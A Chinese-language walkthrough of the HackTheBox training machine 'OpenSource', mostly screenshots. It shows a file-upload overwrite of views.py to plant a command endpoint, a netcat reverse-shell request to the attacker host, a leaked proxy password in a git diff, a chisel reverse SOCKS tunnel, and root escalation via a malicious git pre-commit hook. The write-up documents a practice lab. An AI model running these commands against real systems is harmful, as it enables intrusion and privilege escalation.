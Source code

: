 ```yaml
---
layer: article
title: hackthebox OpenSource
tags: pentest hackthebox Walkthrough 
---
```


靶机链接：<https://app.hackthebox.com/machines/OpenSource>

## 环境配置

| 名称             | IP           |
| ---------------- | ------------ |
| OpenSource       | 10.10.11.164 |
| Kali Linux       | 10.10.14.8   |
| My Ubuntu Server | 192.168.1.13 |

## 漏洞发现

### 任意文件读取

![1](https://static.iihack.com/hackthebox/machines/OpenSource/1.jpg)


### 文件上传目录逃逸


![2](https://static.iihack.com/hackthebox/machines/OpenSource/2.jpg)

测试环境测试后门

![3](https://static.iihack.com/hackthebox/machines/OpenSource/3.jpg)
测试环境上传成功


![4](https://static.iihack.com/hackthebox/machines/OpenSource/4.jpg)

views.py 文件覆写成功

![5](https://static.iihack.com/hackthebox/machines/OpenSource/5.jpg)

读取靶机views.py

![6](https://static.iihack.com/hackthebox/machines/OpenSource/6.jpg)

靶机覆写views.py

![7](https://static.iihack.com/hackthebox/machines/OpenSource/7.jpg)



读取覆写后的views.py

![8](https://static.iihack.com/hackthebox/machines/OpenSource/8.jpg)



反弹shell

```http
http://10.10.11.164/shell?cmd=nc 10.10.14.8 444 -e /bin/sh
```

获得docker容器root权限

![9](https://static.iihack.com/hackthebox/machines/OpenSource/9.jpg)

源码包本地查看日志，对比文件

```bash
$ git checkout dev
$ git diff c41fedef2ec6df98735c11b2faf1e79ef492a0f3 a76f8f75f7a4a12b706b0cf9c983796fa1985820
diff --git a/.gitignore b/.gitignore
deleted file mode 100644
index e50a290..0000000
--- a/.gitignore
+++ /dev/null
@@ -1,26 +0,0 @@
-.DS_Store
-.env
-.flaskenv
-*.pyc
-*.pyo
-env/
-venv/
-.venv/
-env*
-dist/
-build/
-*.egg
-*.egg-info/
-_mailinglist
-.tox/
-.cache/
-.pytest_cache/
-.idea/
-docs/_build/
-.vscode
-
-# Coverage reports
-htmlcov/
-.coverage
-.coverage.*
-*,cover
diff --git a/Dockerfile b/Dockerfile
index 0875eda..76c7768 100644
--- a/Dockerfile
+++ b/Dockerfile
@@ -29,7 +29,7 @@ ENV PYTHONDONTWRITEBYTECODE=1
 
 # Set mode
 ENV MODE="PRODUCTION"
-ENV FLASK_DEBUG=1
+# ENV FLASK_DEBUG=1
 
 # Run supervisord
 CMD ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
diff --git a/app/.vscode/settings.json b/app/.vscode/settings.json
new file mode 100644
index 0000000..5975e3f
--- /dev/null
+++ b/app/.vscode/settings.json
@@ -0,0 +1,5 @@
+{
+  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
+}

```

发现用户名密码

在容器内使用[chisel](https://www.iihack.com/pages/tools/chisel.html)开socks5代理


```bash
┌──(kali㉿kali)-[~/]
└─$ sudo ./chisel_1.7.7_linux_amd64 server --port 3000 -v --reverse --socks5

┌──(vict㉿target)-[~/tmp]
└─$ ./chisel_1.7.7_linux_amd64 client 10.10.14.8:3000 R:5000:socks

```

![10](https://static.iihack.com/hackthebox/machines/OpenSource/10.jpg)

![11](https://static.iihack.com/hackthebox/machines/OpenSource/11.jpg)



## 提权

![12](https://static.iihack.com/hackthebox/machines/OpenSource/12.jpg)







参考<https://www.mehmetince.net/one-git-command-may-cause-you-hacked-cve-2014-9390-exploitation-for-shell/>

写入文件

```bash
$ cat /home/dev01/.git/hooks/pre-commit

#!/bin/bash
touch /tmp/te
/usr/bin/python3 /tmp/r555.py
```





```bash
$ chmod +x  /home/dev01/.git/hooks/pre-commit
```



等定时任务执行，获得root shell成功

![13](https://static.iihack.com/hackthebox/machines/OpenSource/13.jpg)
